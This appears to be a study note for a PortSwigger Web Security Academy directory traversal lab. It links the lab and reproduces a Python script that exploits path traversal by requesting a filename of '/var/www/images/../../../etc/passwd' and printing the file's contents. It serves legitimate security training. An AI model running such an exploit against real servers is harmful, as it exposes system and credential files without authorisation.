 #directorytraversal [[Directory Traversal]]
[Lab](https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path)
[Python Script](https://github.com/rkhal101/Web-Security-Academy-Series/blob/main/directory-traversal/lab-05/directory-traversal-lab-05.py) 

*This is the python code to Automate* 
```python
import sys
import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def directory_traversal_exploit(url):
    image_url = url + '/image?filename=/var/www/images/../../../etc/passwd'
    r = requests.get(image_url, verify=False, proxies=proxies)
    if 'root:x' in r.text:
        print('(+) Exploit successful!')
        print('(+) The following is the content of the /etc/passwd file:')
        print(r.text)
    else:
        print('(-) Exploit failed.')
        sys.exit(-1)

def main():
    if len(sys.argv) !=2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)
    
    url = sys.argv[1]
    print("(+) Exploiting directory traversal vulnerability...")
    directory_traversal_exploit(url)


if __name__ == "__main__":
    main()
```
